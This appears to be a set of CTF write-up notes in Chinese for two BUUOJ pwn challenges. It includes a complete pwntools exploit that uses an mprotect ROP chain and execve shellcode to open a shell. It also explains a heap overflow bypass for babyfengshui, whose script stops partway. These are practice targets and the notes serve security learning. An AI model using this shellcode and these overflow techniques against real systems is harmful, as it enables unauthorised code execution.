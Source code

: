   

* ### get_started_3dsctf_2016

  mprotect在bss开一段跑shellcode

  ```python
  from pwn import *
  r = remote('pwn.buuoj.cn',20004)
  elf = ELF('./get_started_3dsctf_2016')
  read_addr = elf.symbols['read']
  mprotect = elf.symbols['mprotect']
  bss_addr = 0x80ebf80
  pop3_ret = 0x804f460
  shellcode = '\x31\xc9\xf7\xe1\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0\x0b\xcd\x80'
  payload = 'a'*56
  payload += p32(read_addr)
  payload += p32(pop3_ret)
  payload += p32(0)
  payload += p32(bss_addr)
  payload += p32(0x100)
  payload += p32(mprotect)
  payload += p32(bss_addr)
  payload += p32(0x80eb000)
  payload += p32(0x1000)
  payload += p32(7)
  r.sendline(payload)
  r.sendline(shellcode)
  r.interactive()
  ```

* ### babyfengshui_33c3_2016

  ```c
  struct user {
      char *desc;
      char name[0x7c];
  } user;
  struct user *store[50];
  //0x804b069 user_num
  //0x804b080 store
  ```

  delete时user->desc没有置零，user_num 不变

  有保护措施防止溢出

  ```c
  (store[i]->desc + test_size) < (store[i] - 4)
  ```

  添加两个user，free第一个，然后再添加一个user，description长度为第一个user的description 长度加上user结构体的长度，可以绕过检查，造成堆溢出，修改第二个user的desc指针

  ```python
  from pwn import *
  r = remote('pwn.buuoj.cn',20002)
  elf = ELF('./babyfengshui_33c3_2016')
  libc = ELF('./x86_libc.so.6')
  free_got = elf.got['free']
  free_libc = libc.symbols['free']
  system_libc = libc.symbols['system']
  
  def add_user(size, length, text):
      r.sendlineafter('Action: ', '0')
      r.sendlineafter('description: ', str(size))
      r.sendlineafter('name: ', 'nmsl')
      r.sendlineafter('length: ', str(length))
      r.sendlineafter('text: ', text)
  ```